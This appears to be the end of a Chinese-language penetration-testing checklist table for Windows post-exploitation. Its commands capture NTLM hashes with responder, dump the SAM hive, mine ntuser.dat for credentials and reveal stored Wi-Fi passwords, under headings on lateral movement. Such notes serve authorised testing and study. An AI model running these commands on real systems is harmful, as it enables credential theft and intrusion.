| `sudo responder -wrf -v -I tun0`                                                                               | 捕獲 NTLM Hash：如 SMB Relay、WPAD、HTTP 基於 LAN 攔截                                                                                                                                                                                                                                                                                   | 取得 hash                                                       | 使用 hashcat / john 破解或 pass-the-hash 利用                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| `%USERPROFILE%\ntuser.dat`                                                                                     | 使用者行為分析登錄檔，可含自動登入帳密、自動啟動項等                                                                                                                                                                                                                                                                                                     | 可取                                                            | 分析使用者行為紀錄與憑證痕跡、Persist 構建依據                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| <p></p><ol start="5"><li><mark style="color:red;">👉【橫向移動】：使用擷取的憑證去登入別的主機（RDP、SMB、WMI、Psexec）</mark></li></ol> |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| <p>如果可以使用admin 開啟cmd.exe</p><p></p><p>reg save HKLM\SAM C:\sam.save </p>                                       | 成功                                                                                                                                                                                                                                                                                                                             |                                                               | SAM 攻擊                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| <p></p><ol start="6"><li><mark style="color:red;">機密提取 / 控制權奪取 / 攻擊橫向擴張</mark></li></ol>                       |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| `net use`                                                                                                      | 列出網路磁碟掛載、憑證綁定、AD 使用紀錄                                                                                                                                                                                                                                                                                                          | 有磁碟掛載                                                         | 掃描共用資料夾找憑證、內部資源與 Payload 放置點                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| `netsh wlan show profile`                                                                                      | 檢查無線網路清單                                                                                                                                                                                                                                                                                                                       | 有 Wi-Fi 設定檔                                                   | 下一步使用 key=clear 取出密碼                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| `netsh wlan show profile <ProfileName> key=clear`                                                              | 顯示明文 Wi-Fi 密碼                                                                                                                                                                                                                                                                                                                  | 密碼出現                                                          | 進行無線網路滲透（無線中繼、偽 AP 攻擊）                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |

***

> 💡此表格可配合每次主機滲透過程逐項操作，逐條判斷是否能提權、轉向、獲取憑證或進行後門維持。 若需匯出 PDF、Markdown、或轉成可執行腳本（如 AutoRecon 模組），可進一步告知。

